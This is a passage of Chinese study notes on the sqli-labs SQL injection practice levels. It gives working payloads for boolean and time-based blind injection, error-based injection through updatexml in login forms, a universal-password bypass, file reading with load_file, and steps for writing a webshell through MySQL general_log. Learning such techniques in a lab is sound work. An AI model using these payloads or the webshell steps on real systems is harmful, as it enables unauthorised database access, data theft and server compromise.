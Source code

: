         `set global general_log = on;`

    3. 设置日志目录（为 shell 地址）

        ``set global general_log_file = 'webshell 位置';`

    4. 写入

        `select 'webshell 语句'`

    5. 关闭 `general_log` 模式：

        `set global general_log = off;`

7. 读文件用 `load_file`

8. 常见的默认网站地址：

    

## 5. Less-8(盲注，页面要有查询成功和失败的回显)

1. 在 where 句子中，and 连接的地方，如果子句中出现逻辑 false（and false 或者全是 all or false) 就会是空。

2. 常用函数：

    `substr(String content, int begining, int length)` 截取子字符串

    `ascii(String content)` 将内容转换成十进制的 Ascii

    `length(String content)` 获取长度

    `left(String content, int length)` 从左开始，截取 length 长度的字符串

    `right(String content, int length)` 从右开始。

## 6. Less-9（时间盲注，当页面只有一种显示状态时）

1. 当页面对输入的 SQL 语句没有反应时，可以使用 `sleep(5)` 休眠函数来判断。

2. 应用（配合 if 函数来使用）：

    `id=1' and if(ascii(left(database(),1)) = 115 , sleep(5), null)-- -`

## 7. Less-11（登录框的 SQL 注入）

1. 通过 post 传输后，可以通过 F12 网络查看 post 主体内容从而构造语句。

2. 尽量在系统 SQL 语句中的最后一个变量中进行注入，否则使用注释时会把后面的语句注释掉，容易注入失败。

3. 应用：

    `uname=1&passwd=1' and updatexml(1, concat(0x7e, (select database()), 0x7e), 1) -- -&Submit=Submit`

4. 闭合的时候，如果出现报错语句显示为 `''`，那么后面可以加括号来接着判断闭合

5. 万能密码：`1' or 1=1 -- -`

## 8. Less-12~16（登录框的其他注入）

1. 在 Post Data 中进行报错注入（如果界面有 SQL 报错回显），布尔盲注（没有 SQL 报错回显）和时间盲注（无任何提示）。
